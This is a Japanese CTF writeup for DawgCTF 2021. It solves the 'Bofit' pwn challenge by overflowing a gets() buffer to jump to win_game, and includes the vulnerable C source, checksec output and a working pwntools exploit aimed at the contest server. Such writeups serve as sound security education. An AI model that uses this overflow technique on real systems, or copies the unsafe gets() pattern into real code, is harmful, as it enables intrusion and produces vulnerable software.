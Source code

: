 ```yaml
---
title: "DawgCTF 2021 Writeup"
date: 2021-05-09T11:00:00+09:00
lastmod: 2021-05-09T11:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2FdawgCTF_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}


URL: [https://umbccd.io/](https://umbccd.io/)
<br /><br />

730点を獲得し、最終順位は209位でした。<br />
<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_score.png" alt="dawgctf_2021_score.png">

<br>

以下は解いたチャレンジです。<br />

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves1.png" alt="dawgctf_2021_solves1.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves2.png" alt="dawgctf_2021_solves2.png">

<br><br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves3.png" alt="dawgctf_2021_solves3.png">

<br>

<img src="https://captureamerica.github.io/writeups/img/dawgctf_2021_solves4.png" alt="dawgctf_2021_solves4.png">

<br><br>

わけがわからないチャレンジが結構あったな、というのが正直な感想です。みんな、よく頑張って解いているなぁ、と思いました。

<br>

RSAの2つは RsaCtfTool.py で解いて 350 (150 + 200) points 取っているし、他も簡単なのしか解けてないですが、とりあえず Pwn の 一個だけ Writeup 残しておきます。


<br /><br />
## [Pwn]: Bofit (125 points)
- - -
### Challenge
> Because Bop It is copyrighted, apparently
<br /><br />

Attachment:

- bofit (ELF 64bit)
- bofit.c

以下、ソースコードの中身です。

```C
#include <stdio.h>
#include <stdbool.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <unistd.h>

void win_game(){
	char buf[100];
	FILE* fptr = fopen("flag.txt", "r");
	fgets(buf, 100, fptr);
	printf("%s", buf);
}

int play_game(){
	char c;
	char input[20];
	int choice;
	bool correct = true;
	int score = 0;
	srand(time(0));
	while(correct){
		choice = rand() % 4;
		switch(choice){
			case 0:
				printf("BOF it!\n");
				c = getchar();
				if(c != 'B') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 1:
				printf("Pull it!\n");
				c = getchar();
				if(c != 'P') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 2:
				printf("Twist it!\n");
				c = getchar();
				if(c != 'T') correct = false;
				while((c = getchar()) != '\n' && c != EOF);
				break;

			case 3:
				printf("Shout it!\n");
				gets(input);
				if(strlen(input) < 10) correct = false;
				break;
		}
		score++;
	}
	return score;
}

void welcome(){
	char input;
	printf("Welcome to BOF it! The game featuring 4 hilarious commands to keep players on their toes\n");
	printf("You'll have a second to respond to a series of commands\n");
	printf("BOF it: Reply with a capital \'B\'\n");
	printf("Pull it: Reply with a capital \'P\'\n");
	printf("Twist it: Reply with a capital \'T\'\n");
	printf("Shout it: Reply with a string of at least 10 characters\n");
	printf("BOF it to start!\n");
	input = getchar();
	while(input != 'B'){
		printf("BOF it to start!\n");
		input = getchar();
	}
	while((input = getchar()) != '\n' && input != EOF);
}

int main(){
	int score = 0;
	welcome();
	score = play_game();
	printf("Congrats! Final score: %d\n", score);
	return 0;
}
```

<br />
### Solution
play_game()関数の中にBOFの脆弱性が存在します。

そこに辿り着く前に、まず'B'を送って、次に "Shout it" が出るまで 'B', 'P', または 'T' を送り続ける必要があります。

あとは、BOFを発生させて win_game() に飛ぶだけです。

<br />

<pre>
$ checksec bofit
[*] '/home/captureamerica/Mac_Downloads/bofit'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
</pre>

<br />
win_game()のアドレスは以下の通りです。gdbのi funcで確認してます。No PIEなので、これは固定です。

<pre>
0x0000000000401256  win_game
</pre>


<br />

書いたコード。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *

if 0:
    s = process('./bofit')
else:
    host, port = 'umbccd.io', 4100
    s = remote(host, port)

s.recvuntil('BOF it to start!\n')
s.sendline('B')

while 1:
    msg = s.recvuntil('\n')
    if "Shout it!" in msg:
        print(msg)
        break
    c = list(msg)
    s.sendline(c[0])

payload = ''
payload += b'A' * 20
payload += b'B' * 20
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
payload += p64(0x0000000000401256)  # win_game()
s.sendline(payload)
msg = s.recvall()
print(msg)
s.close()
```


<br />

Flag: `DawgCTF{n3w_h1gh_sc0r3!!}`

<br />

実のところ、'B'の20バイトの辺りとか、win_game()のアドレスの繰り返しとか、あまり考えずにトライ・アンド・エラーでテキトーにやってます。

ちゃんと理解した上でやらねば。。。


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

